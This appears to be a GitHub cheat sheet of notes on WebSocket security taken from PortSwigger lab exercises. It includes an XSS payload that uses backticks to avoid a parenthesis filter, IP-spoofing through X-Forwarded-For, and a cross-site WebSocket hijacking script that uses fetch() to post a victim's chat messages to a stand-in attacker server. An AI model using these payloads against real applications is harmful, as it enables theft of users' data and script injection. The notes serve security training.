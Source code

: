 # WebSockets


## Summary

* [Recon for WebSockets](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

* **View the .pdf file in the folder for more details, the file can be viewed inline without needing to download it**

## Resources

* https://portswigger.net/web-security/websockets

## Recon


### Identify WebSockets Requests

* On the Proxy tab in Burp Suite, there is a “WebSockets history” section.  This section will contain any WebSockets messages initiated by the application.  If this section has any requests, then the application is using WebSockets.

* After identifying that WebSockets are in use, the 3 labs on this document can help to formulate ideas to attack the application.


## Cheat Sheet

### XSS Exploit

* Submit an XSS payload within a parameter in the WebSocket message.  The application is returning this value without any input validation or encoding, and it is between some HTML tags, so the data is executed as JavaScript code.


### XSS Exploit + Brute Force Bypass

* Use the WebSockets to exploit an XSS vulnerability.  If the application is blacklisting your IP address, try using the X-Forwarded-For header to spoof the IP address.  Try a variety of different payloads depending on how the application responds.  

* Final XSS payload used backticks since the application was not allowing to use parethesis:

    * {"message":"Test\<img src=x oNeRRoR=alert\`1\`\>"}


### Cross-site WebSocket Hijacking

* Identify if the WebSockets Handshake request is vulnerable to Cross-Origin WebSocket Hijacking/CSRF attack.  The handshake request can be identified by looking for the following headers in the WebSockets requests:


    * Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==


    * Connection: keep-alive, Upgrade

    
    * Upgrade: websocket


* If the handshake request relies solely on session cookies and does not contain any unpredictable parameters, then it is vulnerable to a CSRF attack.  Depending on how the application uses the WebSocket's, we can perform unauthorized actions or retrieve sensitive data that the user can access.

   * Example:  The payload below can be used to retrieve sensitive information from the application that belongs to another user.  When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received.  When the messages are received from the server, they will be sent to attacker's server.  This is possible as cross-site websocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

```javascript
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ATTACKER-SERVER', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
